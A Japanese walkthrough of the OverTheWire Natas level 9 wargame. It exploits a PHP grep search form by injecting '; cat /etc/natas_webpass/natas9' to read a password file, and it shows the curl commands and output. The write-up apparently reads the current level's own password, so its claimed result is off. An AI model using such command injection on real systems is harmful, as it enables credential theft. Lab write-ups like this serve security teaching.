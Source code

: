 # NATAS9

- Username: natas9
- Password: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
- URL: http://natas9.natas.labs.overthewire.org

```
$ curl -u natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl http://natas9.natas.labs.overthewire.org
```
```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas9", "pass": "W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl" };</script></head>
<body>
<h1>natas9</h1>
<div id="content">
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```
ヒントに
```
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
```
と書いてあります。  
ブラウザで`http://natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl@natas9.natas.labs.overthewire.org/index-source.html`にアクセスします。
```html
...
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
</pre>
...
```
コードをみると`$key`が空文字でなければ`dictionary.txt`の中に`$key`の値があるか判断しています。  
想定するコードは以下の通りです。(Passwordは`/etc/natas_webpass/natas9`に入っています。)
```
$ grep -i ; cat /etc/natas_webpass/natas9 dictionary.txt
```
なので`key=; cat /etc/natas\_webpass/natas9`となるようにします。  
urlencodeするために`urlencode`という関数を定義します。
```sh
function urlencode {
  echo "$1" | nkf -WwMQ | sed 's/=$//g' | tr = % | tr -d '\n'
}
```
urlencodeを使ってパスをエンコードします。
```
$ urlencode "; cat /etc/natas\_webpass/natas9"
```
```
%3B%20cat%20%2Fetc%2Fnatas%5C%5Fwebpass%2Fnatas9
```
上で得たURLを使います。
```
$ curl -u natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl \
       -d "needle=%3B%20cat%20%2Fetc%2Fnatas%5C%5Fwebpass%2Fnatas9&submit=Search" \
          http://natas9.natas.labs.overthewire.org |
  head -n 30
```
```
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas9", "pass": "W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl" };</script></head>
<body>
<h1>natas9</h1>
<div id="content">
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

African
Africans
Allah
Allah's
American
Americanism
Americanism's
Americanisms
```
これでpassword(`W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl`)を得ることができました。
